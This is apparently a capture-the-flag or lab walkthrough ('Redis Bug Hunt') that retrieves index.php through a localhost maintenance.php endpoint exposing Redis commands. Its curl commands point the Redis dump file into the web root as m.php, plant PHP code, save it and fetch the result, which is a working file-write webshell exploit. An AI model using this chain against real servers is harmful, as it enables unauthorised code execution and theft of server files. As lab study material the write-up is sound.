 # Redis Bug Hunt
The objective is to retrieve the index.php file from the server.

This can be done using these commands:

    curl http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html
    curl http://localhost/maintenance.php?cmd=config,set,dbfilename,m.php
    curl 'http://localhost/maintenance.php?cmd=set,test,<?php%20phpinfo();%20?>'
    curl 'http://localhost/maintenance.php?cmd=set,test,<?php%20echo%20file_get_contents("index.php");%20?>'
    curl http://localhost/maintenance.php?cmd=save
    curl http://localhost/m.php –output -

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEzMTM1MjU3MzIsNzMwOTk4MTE2XX0=
-->